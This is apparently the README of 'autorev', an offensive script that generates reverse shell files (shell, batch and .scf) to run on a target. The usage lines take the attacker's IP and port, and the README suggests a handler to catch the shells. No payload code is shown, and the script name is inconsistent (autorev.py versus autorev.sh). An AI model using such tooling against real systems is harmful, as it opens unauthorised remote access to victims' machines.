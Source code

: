 # autorev.sh  
The Pythone Script will generate a (.)extensino file with reverse shell codes then you can execute the script on the target [support windows and linux both]
## Generating linux  
```
python3 autorev.py -i <your-ip> -p <your-port> -o <sh-file-name> -f lin
```
## Generating Windows
```
python3 autorev.sh -i <your-ip> -p <your-port> -o <batch-file-name> -f win
```
### Generating scf
```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```
All Usage commands will be also generated and print according to the given switches
### Suggested shell handler - [penelope](https://github.com/brightio/penelope) [Only for linux]
